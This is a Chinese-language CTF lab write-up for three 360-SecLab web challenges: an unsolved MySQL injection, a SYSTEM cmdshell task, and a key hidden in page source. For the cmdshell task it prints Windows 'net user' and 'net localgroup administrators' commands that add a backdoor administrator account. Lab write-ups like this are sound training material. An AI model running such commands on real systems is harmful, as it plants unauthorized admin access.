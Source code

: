 ```yaml
---
title: CTF-Web-01
date: 2021-04-12 21:45:37
categories:
- [360-SecLab, 360-CTF-Web篇]
tags: CTF
---
```


:::info

360CTF实训平台：http://172.18.25.55

仅限内网访问

:::

# 360-SecLab-Web-01

## 菜刀的相册

### 题目描述

进入题目页面，发现与上面MySQL一样，同样是通过$_GET[id]传参

题目网址：http://10.2.0.18/7/

### Write-up

{.primary}

- [ ] 未完成

MySQL注入，暂时没有成功，各位可以自行尝试一下

## 这是黑阔们经常干的事

### 题目描述

本题考察的是windows下cmd相关命令的使用。

题目网址：[http://10.2.0.18/8/index.asp](http://10.2.0.18/8/index.asp)

### Write-up

这是菜刀大牛的服务器的cmdshell，而且还是system权限，不信你可以输入whoami试试

据调查，他服务器的系统是Windows系统，请你添加一个管理员用户！

```shell
# 添加管理员账户lalala，密码123456
net user lalala 123456 /add

# 将用户lalala提升为管理员用户
net localgroup administrators lalala /add
```

用刚创建的账号密码[登录http://10.2.0.18/8/check.asp](http://10.2.0.18/8/check.asp)，获取key

## 老规矩，你懂的

### 题目描述

简单的web代码隐藏key的题目。

题目网址：[http://10.2.0.3/14/](http://10.2.0.3/14/)

### Write-up

浏览器打开题目地址，按F12查看源码，这不就是吗。。。

![key](https://i.vgy.me/18H3CR.png)

